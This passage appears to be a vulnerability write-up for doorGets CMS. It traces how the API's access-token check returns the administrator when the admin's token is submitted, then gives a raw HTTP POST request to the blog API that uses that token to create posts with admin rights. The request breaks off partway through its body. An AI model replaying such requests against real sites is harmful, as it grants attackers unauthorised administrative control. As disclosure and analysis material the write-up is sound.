 ```
![53.png](./img/53.png)

On line 72, call the isValidAccessToken function to get the current user, in this function:

![54.png](./img/54.png)

Line 349 obtains the access_token value through the POST request, and line 359 obtains the user data by querying the token value of the table _users_access_token.

Since the access_token we submitted is the administrator's access_token, the obtained user is the administrator user.

Then we can create a blog post with administrator privileges.

In the \doorgets\app\requests\api\blogRequest.php:

![55.png](./img/55.png)

Line 52 gets the current user as an administrator.

![56.png](./img/56.png)

Line 131 when the request is a POST request, the parameter is passed as required by line 141.

![57.png](./img/57.png)

Line 197 writes the blog's data to the database.

Request the following data:
```
POST /api/index.php?uri=blog&action=index&controller=blog&access_token=H0XZlT44FcN1j9LTdFc5XRXhlF30UaGe1g3cZY6i1K9 HTTP/1.1
Host: 127.0.0.1:8003
Content-Length: 1949
Cache-Control: max-age=0
Origin: http://127.0.0.1:8003
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoECdPo4qJTIADcz5
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://127.0.0.1:8003/dg-user/en/?controller=modulenews&uri=news&action=edit&id=1&lg=en&back=http%3A%2F%2F127.0.0.1%3A8003%2F%3Fnews%3Dnews-test-by-admin-1-en
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=1234
Connection: close

------WebKitFormBoundaryoECdPo4qJTIADcz5
Content-Disposition: form-data; name="active"
